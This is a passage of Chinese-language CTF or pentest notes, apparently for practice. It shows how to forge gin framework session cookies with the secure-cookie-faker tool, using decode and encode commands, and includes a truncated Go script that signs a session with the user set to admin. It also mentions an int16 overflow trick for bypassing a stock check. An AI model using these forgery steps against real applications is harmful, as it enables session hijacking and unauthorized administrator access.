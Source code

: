 1000\*33或1000*34正好\> 32767 实现溢出，再大就库存不足了。

## gin框架伪造cookie

### secure-cookie-faker

工具：[secure-cookie-faker](https://github.com/EddieIvan01/secure-cookie-faker)

decode:

```
.\secure-cookie-faker.exe dec -c ""
```

有type detail的就是object string

encode:

```
.\secure-cookie-faker.exe enc -n "mysession" -k "secret" -o "{user: admin, id: 0[int]}"
```

- `-o `: object string，its like a K-V map, it should have type hints
- `-n` : cookie name, its required because the HMAC hash's generation relies on it
- `-k` : secret key(s), could be multiple: `-k "key1, key2"`, the first is hash key, and the second is encrypt block key

when element's type is `string`, the type tag can be omitted

type tag can only be `int`, `uint`, `float`, `bool`, `string`, `byte`

change serializer

```
.\secure-cookie-faker.exe enc -n "mysession" -k "secret" -o "some-string" -way json
.\secure-cookie-faker.exe enc -n "mysession" -k "secret" -o "{id: 0[int]}" -way json
.\secure-cookie-faker.exe enc -n "mysession" -k "secret" -o "some-string" -way nop
.\secure-cookie-faker.exe dec -c "MTU2NjkxMjI4NXxleUoxYzJWeUlqb2lZV1J0YVc0aWZRbz18OibftwH33BZStXtep7TbN_mbyk8RftQe9t_wxCJXhHo=" -way json
```

### 脚本

```go
package main

import (
	"github.com/gin-contrib/sessions"
	"github.com/gin-contrib/sessions/cookie"
	"github.com/gin-gonic/gin"
	"math/rand"
)

func main() {
	r := gin.Default()
	storage := cookie.NewStore(randomChar(16))
	r.Use(sessions.Sessions("o", storage))
	r.GET("/", cookieHandler)
	r.Run("0.0.0.0:8002")
}

func cookieHandler(c *gin.Context) {
	session := sessions.Default(c)
	session.Set("uname", "admin")	// 修改处
	session.Save()
}

func randomChar(l int) []byte {
	output := make([]byte, l)
```